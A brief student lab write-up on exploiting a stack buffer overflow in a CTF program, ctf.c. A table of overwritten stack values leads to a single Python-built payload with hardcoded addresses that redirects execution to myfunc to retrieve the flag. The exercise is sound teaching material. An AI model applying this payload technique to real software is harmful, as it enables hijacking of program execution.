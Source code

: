 # 21110755, Phạm Văn Cao

#Lab#2 Conduct attack on ctf.c

In this lab, we will exploit a buffer overflow vulnerability in the ctf.c program. Specifically, we will take advantage of the vuln function by overwriting stack values to redirect the program’s execution to the myfunc function, bypass its checks, and retrieve the flag.

we have stack frame:

![alt text](img/1.png)

| Stack frame             | Replace value                                                          | Hình ảnh               |
| ----------------------- | ---------------------------------------------------------------------- | ---------------------- |
| `buf + EBP`             | Replace with 104 'a' characters                                        | ![alt text](img/2.png) |
| Return address          | Replace with the address of the myfunc function                        | ![alt text](img/3.png) |
| Tạo file                | Create flag1.txt to pass the check in myfunc                           | ![alt text](img/3.png) |
| Parameter `s` (4 bytes) | Replace with the address of the exit function to exit myfunc           | ![alt text](img/4.png) |
| 8 bytes                 | Replace with the values of p and q to pass the if conditions in myfunc | ![alt text](img/5.png) |

The following command will trigger the buffer overflow using Python to craft the payload, then run the ctf program:

r $(python -c "print('a'\*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After executing the above command, we will see that the myfunc function is successfully reached, and the flag is retrieved after bypassing the conditions:

![alt text](img/6.png)
